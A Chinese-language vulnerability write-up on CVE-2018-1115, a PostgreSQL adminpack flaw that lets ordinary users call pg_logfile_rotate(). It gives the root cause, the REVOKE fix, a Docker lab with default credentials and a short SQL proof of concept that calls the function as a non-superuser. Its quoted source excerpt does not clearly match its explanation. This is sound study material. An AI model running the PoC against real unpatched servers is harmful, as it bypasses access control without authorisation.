


# CVE-2018-1115 CWE-732 PostgreSQL 访问控制绕过

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **pg_logfile_rotate() 函数：** PostgreSQL 中 `adminpack` 扩展提供的一个函数，用于手动触发日志轮换操作。日志轮换是指将当前的日志文件归档，并开始新的日志文件，以防止日志文件过大或影响系统性能。该函数通常由超级用户执行，旨在帮助数据库管理员管理和维护 PostgreSQL 的日志文件，确保日志文件不会无限制增长，从而保持系统的健康运行。执行该函数后，日志系统会关闭当前日志文件并开始写入新的日志文件。
- **CWE-732: Incorrect Permission Assignment for Critical Resource**（关键资源的权限分配不正确）是一个描述权限管理错误的漏洞类型，指的是系统或应用程序未能正确为关键资源（如文件、目录、数据库表或敏感操作）分配适当的访问权限。这种错误通常会导致未经授权的用户或进程能够访问或修改这些资源，进而引发安全漏洞。CWE-732 的常见危害包括数据泄露、权限提升、系统滥用以及敏感信息的泄漏。在许多情况下，这种漏洞可以通过正确的权限控制和访问控制列表（ACL）来避免。

## 漏洞原理

PostgreSQL 中 `adminpack` 扩展的 `pg_logfile_rotate()` 函数没有正确的权限控制，导致普通用户也可以执行该函数。正常情况下，日志轮换操作应仅由超级用户执行，因为它涉及到敏感的日志管理和可能的系统配置。然而，由于缺乏适当的访问控制，普通用户能够绕过这一限制，强制触发日志轮换，进而可能导致日志泄露、滥用或服务中断。这种权限控制不当的漏洞使得攻击者能够未经授权执行本应受限的敏感操作。

## 漏洞定位

分析 PostgreSQL 10.0 源码：

在 contrib/adminpack/adminpack--1.0.sql 中，扩展 SQL 安装脚本中的函数权限配置错误。 `adminpack` 扩展在创建 `pg_logfile_rotate()` 这个兼容函数时，没有显式收回默认授予 `PUBLIC` 的 `EXECUTE` 权限。

```sql
-- complain if script is sourced in psql, rather than via ALTER EXTENSION
\echo Use "ALTER EXTENSION adminpack UPDATE TO '1.1'" to load this file. \quit

/* ***********************************************
 * Administrative functions for PostgreSQL
 * *********************************************** */

/* generic file access functions */

CREATE OR REPLACE FUNCTION pg_catalog.pg_file_write(text, text, bool)
RETURNS bigint
AS 'MODULE_PATHNAME', 'pg_file_write_v1_1'
LANGUAGE C VOLATILE STRICT;

REVOKE EXECUTE ON FUNCTION pg_catalog.pg_file_write(text, text, bool) FROM PUBLIC;

CREATE OR REPLACE FUNCTION pg_catalog.pg_file_rename(text, text, text)
RETURNS bool
AS 'MODULE_PATHNAME', 'pg_file_rename_v1_1'
LANGUAGE C VOLATILE;

REVOKE EXECUTE ON FUNCTION pg_catalog.pg_file_rename(text, text, text) FROM PUBLIC;

CREATE OR REPLACE FUNCTION pg_catalog.pg_file_rename(text, text)
RETURNS bool
AS 'SELECT pg_catalog.pg_file_rename($1, $2, NULL::pg_catalog.text);'
LANGUAGE SQL VOLATILE STRICT;

CREATE OR REPLACE FUNCTION pg_catalog.pg_file_unlink(text)
RETURNS bool
AS 'MODULE_PATHNAME', 'pg_file_unlink_v1_1'
LANGUAGE C VOLATILE STRICT;

REVOKE EXECUTE ON FUNCTION pg_catalog.pg_file_unlink(text) FROM PUBLIC;

CREATE OR REPLACE FUNCTION pg_catalog.pg_logdir_ls()
RETURNS setof record
AS 'MODULE_PATHNAME', 'pg_logdir_ls_v1_1'
LANGUAGE C VOLATILE STRICT;

REVOKE EXECUTE ON FUNCTION pg_catalog.pg_logdir_ls() FROM PUBLIC;

/* These functions are now in the backend and callers should update to use those */

DROP FUNCTION pg_file_read(text, bigint, bigint);

DROP FUNCTION pg_file_length(text);

DROP FUNCTION pg_logfile_rotate();
```

## 漏洞修复

新增了 `adminpack--1.1--2.0.sql`，并将 `adminpack.control` 的默认版本从 `1.1` 提升到 `2.0`，以确保新安装或升级后的 `adminpack` 扩展处于修复后的版本状态。

补充对 `pg_logfile_rotate()` 的权限撤销语句。`contrib/adminpack/adminpack--1.0--1.1.sql` 的升级脚本被修改为只保留关键修复语句。从 `PUBLIC` 角色收回 `pg_logfile_rotate()` 的默认执行权限，使普通用户不再能够调用该函数。

```c
REVOKE EXECUTE ON FUNCTION pg_catalog.pg_logfile_rotate() FROM PUBLIC;
```

## 影响范围

**影响版本：**PostgreSQL：

- 9.x to 9.6.8
- 10.0 to 10.3

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 10.0，已安装 adminpack 扩展，管理员为 postgres，密码为 postgres，已存在数据库 test，存在 PoC 代码 CVE-2018-1115-PoC.sql

```txt
NIST: NVD    Base Score:9.1 CRITICAL    Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H
CNA:Red Hat, Inc.    Base Score:4.2 MEDIUM    Vector:CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:L
```

```txt
cpe:2.3:a:postgresql:postgresql:10.0:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test ，并运行 PoC 代码。在 Step 3 后可以看到成功调用了 pg_logfile_rotate() 函数。

```bash
docker exec -it postgres-10.0 psql -U postgres -d test -f CVE-2018-1115-PoC.sql
```




## PoC分析

```sql
-- 安装 adminpack 扩展
CREATE EXTENSION adminpack;

-- 创建一个普通用户
CREATE USER test_user;

-- 切换到普通用户角色
SET ROLE test_user;

-- 普通用户尝试执行日志轮换
SELECT pg_catalog.pg_logfile_rotate();
```

由于 pg_logfile_rotate() 函数未正确限制权限，普通用户 `test_user` 能够成功调用 `pg_logfile_rotate()`，强制执行日志轮换操作。

## 参考链接

[NVD - CVE-2018-1115](https://nvd.nist.gov/vuln/detail/CVE-2018-1115#range-14744494)

[adminpack: Revoke EXECUTE on pg_logfile_rotate() · postgres/postgres@7b34740](https://github.com/postgres/postgres/commit/7b347409fa2776fbaa4ec9c57365f48a2bbdb80c#diff-409f76327354df49188243ae9bb28657e01e24a920a51321aa6673dea77a70f7)
